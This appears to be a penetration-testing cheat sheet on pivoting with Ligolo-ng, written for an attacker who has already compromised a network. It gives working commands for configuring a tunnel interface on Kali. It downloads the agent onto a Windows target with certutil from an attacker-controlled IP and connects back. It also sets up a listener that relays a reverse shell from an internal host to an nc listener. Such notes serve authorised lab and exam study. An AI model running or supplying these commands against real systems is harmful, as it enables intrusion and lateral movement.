


# Ligolo-ng

## Pivoting

```bash
https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5

# On kali

sudo ip tuntap add user dhawan mode tun ligolo
sudo ip link set ligolo up # enable the interface

#run on kali
./proxy -selfcert

# upload to target machine, like windows
certutil.exe -urlcache -f http://192.168.45.212:8888/agent64.exe agent64.exe

# Execute agent on targt machine 
.\agent64.exe -connect 192.168.45.212:11601 -ignore-cert

# On kali - Add a route on the proxy/relay server to the 172.16.241.254/24 agent network.
sudo ip route add 10.10.111.0/24 dev ligolo

# Interface that we are interested with
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:ab:8e:2f              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.241.254/24              │
└──────────────┴────────────────────────────────┘

# go back to the proxy interface, choose the session and start the port forwarding
session 1
start
```


## Port forwarding using ligolo

<figure><figcaption></figcaption></figure>

Imagine you've compromised a network where your Kali machine has the IP address <mark style="background-color:red;">192.168.1.1</mark>. You have compromised another machine in the same network with the IP address <mark style="background-color:red;">192.168.1.2</mark>, which is connected to an internal network consisting of machines with IP addresses <mark style="background-color:red;">10.10.1.1</mark> (ms01) and <mark style="background-color:red;">10.10.1.2</mark> (ms02). You've set up Ligolo-ng on <mark style="background-color:red;">192.168.1.2</mark> to access the internal network from your Kali machine.

During your exploration, you discover a RCE vulnerability on ms02. Your goal is to get a reverse shell from ms02 back to your Kali machine. How can you achieve this using Ligolo-ng?

### Technique

Add the following listerner on proxy running on your kali machine

```bash
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
```

The machine with IP 192.168.1.2, running the Ligolo agent, will be listening for traffic on port 1234 on all interfaces (0.0.0.0:1234) and forwarding this traffic to our Kali machine, which has a listener active on port 4444.


the IP address in your reverse shell payload should be that of the machine running the Ligolo-ng agent (which is 192.168.1.2), and the port should be the one you configured (which is 1234). No changes are needed on the Kali machine (i.e. nc -nlvp 4444). :tada:


<figure><figcaption></figcaption></figure>

Refer for more details -> [https://www.youtube.com/watch?v=DM1B8S80EvQ\&t=555s](https://www.youtube.com/watch?v=DM1B8S80EvQ\&t=555s)
